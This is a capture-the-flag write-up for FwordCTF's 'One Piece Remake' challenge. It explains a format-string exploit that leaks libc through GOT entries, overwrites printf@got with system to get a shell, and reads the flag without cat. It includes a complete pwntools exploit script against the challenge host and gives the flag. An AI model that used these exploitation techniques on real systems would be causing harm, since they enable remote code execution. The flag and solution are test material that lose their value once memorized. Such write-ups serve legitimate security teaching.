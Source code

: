 # One Piece Remake

The binary has no protections except Partial RELRO.

The menu has 3 options besides exiting, one of which is secret.

We can read into a shellcode pointer, but only 5 bytes get read. We can execute said shellcode. This is all pretty much useless since 5 bytes of shellcode is not enough to do literally anything useful.

There's a secret option - gomugomunomi. It reads 100 bytes of input\(no BOF\) and then printfs it, allowing us to execute the classic format string exploit.

I tried to do the simple %p leak, but found no useful addresses on the stack. Instead, I used %s to read my buffer\(offset 7, found through pwntools automation\) as an address of a string in order to read got entries.

By doing gotaddress + %7$s we can leak got addresses to get a libc leak. We'll use libc-database find yet again to get the remote libc, libc6\_2.30-0ubuntu2.2\_i386

Then, we'll execute a got overwrite attack by overwriting printf@got with system. Next gomugomunomi, the input will be system'd, so we enter /bin/sh to get dropped into a shell.

But it's not over! On the remote, there is no cat. The solution to read flag.txt is simple - `while read line; do echo $line; done < flag.txt`

This reveals the flag.

1. gotaddress+ %7$s to leak libc
2. Format string overwrite to map printf to system
3. In gomugomunomi, send /bin/sh
4. Use while read line; do echo $line; done to read the flag file as cat is nonexistent

## Flag: FwordCTF{i\_4m\_G0inG\_t0\_B3coM3\_th3\_p1r4Te\_K1NG}

```python
from pwn import *
e = ELF("./remake")
libc = e.libc if args.LOCAL else ELF("/home/kali/Tools/libc-database/libs/libc6_2.30-0ubuntu2.2_i386/libc.so.6")
def getproc():
    return e.process() if args.LOCAL else remote('onepiece.fword.wtf', 1236)
def dofmt(data):
    p.sendline(b"gomugomunomi")
    p.recvuntil(b">>")
    p.sendline(data)
    output = p.recvline()
    p.recvuntil(b">>")
    return output
def write_fmt(data):
    proc = getproc()
    proc.recvuntil(b">>")
    proc.sendline("gomugomunomi")
    proc.recvuntil(b">>")
    proc.send(data)
    output = proc.recvline()
    proc.close()
    return output
auto = FmtStr(write_fmt)
p = getproc()
p.recvuntil(b">>")
string = b"/bin/sh\x00"
payload = p32(e.got['puts']) + b'%7$s'
output = dofmt(payload)[4:8]
libcleak = u32(output)
log.info(f"Libc leak: {hex(libcleak)}")
libcbase = libcleak - libc.symbols['puts']
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
# Overwrite printf@got with system@GLIBC
payload = fmtstr.fmtstr_payload(auto.offset,{e.got['printf']: libc.symbols['system']})
p.sendline(b"gomugomunomi")
p.recvuntil(b">>")
p.sendline(payload)
p.clean()
p.sendline(b"gomugomunomi")
p.recvline()
p.sendline(b"/bin/sh")
p.interactive()
```

